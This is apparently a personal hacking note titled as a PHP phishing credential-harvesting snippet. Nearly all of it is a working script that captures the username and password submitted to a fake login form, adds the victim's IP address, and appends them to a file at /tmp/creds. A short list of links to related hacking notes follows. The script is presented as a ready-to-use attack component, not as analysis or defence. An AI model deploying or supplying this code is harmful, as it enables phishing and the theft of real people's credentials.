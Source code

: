 # php quick client phishing attack credential harvesting
```php
<?php
// Turn off all error reporting
//error_reporting(0);

function get_ip() {
    if (function_exists('apache_request_headers')) {
      $headers = apache_request_headers();
    } else {
      $headers = $_SERVER;
    }
    if (array_key_exists('X-Forwarded-For',$headers) && filter_var($headers['X-Forwarded-For'],FILTER_VALIDATE_IP,FILTER_FLAG_IPV4)) {
      $the_ip = $headers['X-Forwarded-For'];
    } elseif (array_key_exists('HTTP_X_FORWARDED_FOR',$headers) && filter_var($headers['HTTP_X_FORWARDED_FOR'],FILTER_VALIDATE_IP, FILTER_FLAG_IPV4)) {
      $the_ip = $headers['HTTP_X_FORWARDED_FOR'];
    } else {
      $the_ip = filter_var($_SERVER['REMOTE_ADDR'],FILTER_VALIDATE_IP,FILTER_FLAG_IPV4);
    }
    return $the_ip;
  }

$password = $_POST['PasswordForm'];
$username = $_POST['UsernameForm'];


$ip = get_ip();
$browser = $_SERVER['HTTP_USER_AGENT'];
$host = $_SERVER['HTTP_HOST'];

if ($password != '') {
  $creds = $ip . '|' . $username . '|' . $password . "\n";
}

$myfile = fopen("/tmp/creds", "a") or die("Unable to open file!");
fwrite($myfile, $creds);
fclose($myfile);
?>
```
` zet/20221003150577/README.md `

# Related

- [20221014185956](/zet/20221014185956/README.md) kb file named kb/hacking/php/PHP-credential-harvesting-write-file.md
- [20221018160416](/zet/20221018160416/README.md) phishing or credential harvesting concept
- [20221008215655](/zet/20221008215655/README.md) user account
- [20221008215530](/zet/20221008215530/README.md) username
- [20221008215325](/zet/20221008215325/README.md) password
- [20221007220451](/zet/20221007220451/README.md) hacking notes hub

Tags:

    #hacking
